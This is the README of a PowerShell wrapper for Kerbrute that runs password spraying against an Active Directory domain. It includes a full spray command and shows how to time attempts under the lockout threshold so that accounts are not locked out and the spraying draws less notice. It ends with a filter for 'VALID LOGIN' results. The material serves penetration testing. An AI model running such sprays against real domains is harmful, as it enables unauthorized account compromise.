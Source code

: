 # Usage

```PowerShell
.\kerbrutus.ps1 -ExecutionCount 3 -TimeWindowMinutes 30 -CommandTemplate '.\kerbrute.exe passwordspray -d domain.local .\users.txt -v "<pass>"' -PasswordsFile .\passwords.txt -OutputFile results.log
```

In `-CommandTemplate` the `<pass>` is a place holder value that is populated by each password on the specified password list file (`-PasswordsFile <pass_file>`).

The value specified in `-OutputFile` will have all results appended to it.

## Why?

So you can continuously and safely run [Kerbrute](https://github.com/ropnop/kerbrute) (the `passwordspray` function) in alignment with the password policy of the AD environment you are using.

E.g.
```PowerShell
Get-ADDefaultDomainPasswordPolicy
```
```
<SNIP>
LockoutDuration             : 00:30:00
LockoutObservationWindow    : 00:30:00
LockoutThreshold            : 5
<SNIP>
```

So, as the `LockoutObservationWindow` is `30` and the `LockoutThreshold` is `5`, you might choose to safely spray `3` passwords (for ever domain user) within a `30` minute window (and then rinse and repeat).

So you'd set the follow as such:
```PowerShell
-ExecutionCount 3 -TimeWindowMinutes 30
```

*NB*: Kerbrutus counts `30` minutes from when the last command finishes executing and adds 1 minute to create a buffer.

Then you can just `grep` all `VALID LOGIN`s from the log file:
```PowerShell
Select-String -Path "results.log" -Pattern "VALID LOGIN"
```
